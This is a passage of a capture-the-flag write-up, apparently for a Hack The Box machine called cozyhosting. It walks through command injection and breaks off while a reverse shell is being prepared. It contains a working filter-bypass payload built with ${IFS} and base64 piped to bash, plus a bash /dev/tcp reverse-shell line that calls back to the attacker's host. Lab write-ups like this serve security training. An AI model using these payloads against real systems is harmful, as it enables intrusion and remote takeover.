 Payload is probably good, but must not contain spaces ….

[https://book.hacktricks.xyz/pentesting-web/command-injection](https://book.hacktricks.xyz/pentesting-web/command-injection)

We could use ${IFS} to replace spaces, but also we can encode the payload with base64 (usefull to bypass filters).

Let's give a try !

```shell
echo "ping 10.10.14.23" |base64
```

Result:

```text
cGluZyAxMC4xMC4xNC4yMwo=
```

This give the final payload :

```text
;echo${IFS}"cGluZyAxMC4xMC4xNC4yMwo="|base64${IFS}-d|bash;
```

with a few `${IFS}` to replace spaces, and a base64 encoded payload.

We need to dump network packets to see the ping calling back our host :

```shell
tcpdump -i tun0
```

Result :

```
IP cozyhosting.htb > 10.10.14.23: ICMP echo request, id 2, seq 1, length 64
IP 10.10.14.23 > cozyhosting.htb: ICMP echo reply, id 2, seq 1, length 64
IP cozyhosting.htb > 10.10.14.23: ICMP echo request, id 2, seq 2, length 64
IP 10.10.14.23 > cozyhosting.htb: ICMP echo reply, id 2, seq 2, length 64
IP cozyhosting.htb > 10.10.14.23: ICMP echo request, id 2, seq 3, length 64
IP 10.10.14.23 > cozyhosting.htb: ICMP echo reply, id 2, seq 3, length 64
...
```

We have a ping ! We are able to execute commands on the remote target!

## Initial access

### Exploitation

By using this RCE, we can execute a reverse shell.

[https://www.revshells.com/](https://www.revshells.com/)

We can forge a reverse shell command :

```shell
echo "bash -i >& /dev/tcp/10.10.14.23/9001 0>&1" | base64
```
